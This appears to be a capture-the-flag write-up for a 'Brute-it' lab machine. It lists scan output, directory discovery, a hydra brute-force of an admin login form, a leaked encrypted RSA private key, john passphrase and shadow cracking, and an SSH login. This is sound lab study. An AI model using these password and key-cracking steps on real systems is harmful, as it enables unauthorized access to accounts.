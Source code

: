 # Brute-it

## IP

## Scan

- `rustscan -a $(cat ip) -- -A -vv -sV -oN nmap.txt`

```
# Nmap 7.80 scan initiated Mon Jan 24 23:58:01 2022 as: nmap -vvv -p 22,80 -A -vv -sV -oN nmap.txt 10.10.153.33
Nmap scan report for 10.10.153.33
Host is up, received syn-ack (0.24s latency).
Scanned at 2022-01-24 23:58:01 +06 for 14s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 24 23:58:15 2022 -- 1 IP address (1 host up) scanned in 14.66 seconds
```

## Gobuster

- `gobuster dir -u $(cat ip) -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`
  - /admin page found

## Password bruteforce

- `hydra -l admin -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt $(cat ip) http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V`

## RSA key

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```

- `ssh2john id_rsa > id_rsa.hash` So that john can understand the hash type
- `john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt id_rsa.hash`

## SSH

- `ssh john@$(cat ip) -i id_rsa`

## Shadows

- `john shadow.txt --wordlist=rockyou.txt`
